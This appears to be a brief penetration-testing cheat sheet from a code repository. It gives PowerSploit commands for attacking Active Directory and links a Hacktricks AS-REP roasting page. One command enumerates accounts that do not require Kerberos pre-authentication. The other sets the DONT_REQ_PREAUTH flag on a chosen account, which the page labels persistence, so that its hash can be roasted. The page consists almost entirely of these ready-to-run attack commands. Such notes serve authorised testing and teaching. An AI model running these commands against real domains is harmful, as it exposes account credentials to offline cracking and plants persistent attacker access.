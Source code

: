 # PowerSploit

## 01 - Enumerate ASREPRoast Users

```
PS C:\> Get-DomainUser -PreauthNotRequired -Verbose
```

## 02 - Persistence

```
PS C:\> Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```

---
## References

### Hacktricks

- [Hacktricks: Active Directory Methodology ASREPRoast](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/asreproast.html)